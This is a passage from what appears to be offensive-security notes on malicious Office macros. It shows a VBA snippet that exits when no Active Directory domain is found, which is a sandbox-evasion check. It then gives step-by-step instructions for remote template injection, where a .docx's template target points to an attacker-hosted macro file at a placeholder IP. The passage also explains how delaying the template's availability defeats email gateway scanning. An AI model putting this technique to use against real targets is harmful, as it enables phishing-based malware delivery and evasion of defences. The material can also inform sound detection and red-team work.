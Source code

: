 ```
Sub CheckDomain()
On Error Resume Next
Set objRootDSE = GetObject("LDAP://RootDSE")
If Err.Number <> 0 Then
wscript.Quit
End If
On Error GoTo 0
End Sub
```

### Remote template injection

In order to avoid embedding `VBA` code in an office document and having
to send a file format supporting macro (such as `.doc` or `.docm`), a remote
template can be included in a regular `.docx` file. The remote template will
contain the (malicious) `VBA` code and will be injected upon opening of the
document in Office. In additions to making the file more resilient to static
analysis, relaying on a remote template can help circumvent some dynamic
analysis techniques. For instance, the template can be made available on the
remote server a few minutes after sending the document, so that eventual
(immediate) scanning performed by emails gateway do not access the `VBA` code.

As with any `VBA` macro, the execution of the macro contained in the template
is conditioned by the activation of the content by the user ("Enable content").
However, upon opening of the document, `HTTP` `OPTIONS`, `HEAD`, and `GET`
requests will be sent to the webserver hosting the remote template, even if the
macro are not enabled.

The generation process of a `DOCX` document with a remote template is as
follow:
  1. Creation of a regular `docx` document (with a template). Online templates
     available through Office can be used as a starting point.

  2. Changing of the `.docx` extension to `.zip`.

  3. Extraction of the resulting zip archive (using `7zip` for example).

  4. Modification of the `Target` attribute (of type `attachedTemplate`) in
     the `<DOC_NAME>\word\_rels\settings.xml.rels` file to point to the remote
     template.
     Example: `Target="http://<IP>:443/Doc-template_with_macro.dotm"`

  5. Saving of the modification in the `settings.xml.rels` file, rezipping of
     the files into a `.docx` (by zipping the subfolders and files in
     `<DOC_NAME>\` and not the folder directly).

--------------------------------------------------------------------------------

### References

https://github.com/sevagas/macro_pack

https://docs.microsoft.com/en-us/office/vba/word/concepts/customizing-word/auto-macros

https://docs.microsoft.com/fr-fr/office/vba/api/excel.workbook
